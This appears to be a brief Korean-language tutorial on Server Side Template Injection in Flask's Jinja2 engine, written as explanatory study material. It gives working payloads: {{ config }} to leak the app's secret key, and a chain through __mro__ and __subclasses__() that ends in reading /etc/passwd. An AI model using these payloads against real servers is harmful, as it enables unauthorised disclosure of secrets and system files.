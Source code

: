 # SSTI(Server Side Template Injection)

## SSTI?   
SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이다.   
웹 템플릿 엔진마다 사용되는 페이로드가 다르다.   
<br/>




## SSTI 취약점을 이용한 템플릿 구분   

<br/>



## Flask Jinja2   
Flask의 경우 따로 정의하지 않으면 Jinja2 템플릿을 사용하게 된다.   
만약 사용자가 입력한 값이 템플릿 구문으로 인식하게 할 수 있다면 해당 템플릿 구문을 이용하여 SSTI취약점을 발생시켜 RCE(Remote Code Execute) 취약점으로 연계시킬 수 있다.   


### Flask.config   
기본적으로 Flask의 경우 app.n에 들어가는 대부분의 정보들이 config 클래스에 들어가게 된다.   
{{ config }} 해당 페이로드를 삽입하여 config 정보를 출력하게 만들면 app.secret_key에 들어간 중요한 정보들이 나오게 된다.

### Payload   
{{ ''.__class__.__mro__ }}를 출력해보면 다음과 같은 몇 가지가 나온다.
* <type 'str'>
* <type 'basestring'>
* <type 'object’>    

그 중에서 <type 'object’>  클래스로 들어가 서브 클래스를 출력하면 아래와 같이 object의 서브 클래스들이 출력된다.   
```{{ ‘’.__class__.__mro__[2].__subclasses__() }}```   
<br/>

이들 중에서 본인 환경에서 40번째 클래스를 선택하면 파일 클래스를 찾을 수 있다.   
```{{ ‘’.__class__.__mro__[2].__subclasses__()[40] }}``` -> <type 'file’>   
<br/>


이제 여기서 open('/etc/passwd').read() 를 할 경우 파일을 읽을 수 있다.   
<br/>

최종 페이로드   
```{{ ''.__class__.__mro__[2].__subclasses__()[40].open('/etc/passwd').read() }}```





